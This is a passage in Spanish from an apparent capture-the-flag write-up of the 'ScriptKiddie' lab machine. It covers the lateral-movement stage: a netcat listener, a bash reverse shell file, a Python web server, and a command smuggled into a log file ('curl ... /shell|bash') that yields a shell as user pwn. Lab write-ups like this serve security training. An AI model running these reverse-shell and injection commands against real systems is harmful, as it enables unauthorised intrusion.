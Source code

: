 ```
12:16:26.944376 IP 10.10.16.23.4444 > 10.129.95.150.44388: Flags [P.], seq 2:3, ack 3, win 249, options [nop,nop,TS val 2143336586 ecr 877301603], length 1
12:16:27.027500 IP 10.129.95.150.44388 > 10.10.16.23.4444: Flags [P.], seq 3:7, ack 3, win 502, options [nop,nop,TS val 877302068 ecr 2143336586], length 4
12:16:27.027521 IP 10.10.16.23.4444 > 10.129.95.150.44388: Flags [.], ack 7, win 249, options [nop,nop,TS val 2143336669 ecr 877302068], length 0
```

Estamos `recibiendo` estas `peticiones` porque nos está haciendo un `escaneo` con `nmap`, esto lo podemos ver en esta parte del `código` del archivo `app.py`

```
def scan(ip):
    if regex_ip.match(ip):
        if not ip == request.ScriptKiddie_addr and ip.startswith('10.10.1') and not ip.startswith('10.10.10.'):
            stime = random.randint(200,400)/100
            time.sleep(stime)
            result = f"""Starting Nmap 7.80 ( https://nmap.org ) at {datetime.datetime.utcnow().strftime("%Y-%m-%d %H:%M")} UTC\nNote: Host seems down. If it is really up, bu
t blocking our ping probes, try -Pn\nNmap done: 1 IP address (0 hosts up) scanned in {stime} seconds""".encode()
        else:
            result = subprocess.check_output(['nmap', '--top-ports', '100', ip])
        return render_template('index.html', scan=result.decode('UTF-8', 'ignore'))
    return render_template('index.html', scanerror="invalid ip")
```

Nos ponemos en `escucha` con `netcat` para recibir una shell

```
# nc -nlvp 4444
```

Nos `creamos` un `archivo` llamado `shell` con este `contenido`

```
bash -i >& /dev/tcp/10.10.16.23/4444 0>&1
```

En el `mismo directorio` donde se encuentra el archivo `shell` nos `montamos` un `servidor` http con python

```
# python -m http.server 80
```

`Modificamos` el `archivo` que se aloja en `/home/kid/logs/hackers` con el objetivo de `ejecutar comandos`

```
kid@scriptkiddie:~/logs$ echo '[2024-08-11 12:13:26.394001] 10.10.16.23; curl http://10.10.16.23/shell|bash #' > hackers
```

`Recibimos` la `shell`

```
# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.95.150] 44790
bash: cannot set terminal process group (831): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ whoami
whoami
pwn
```
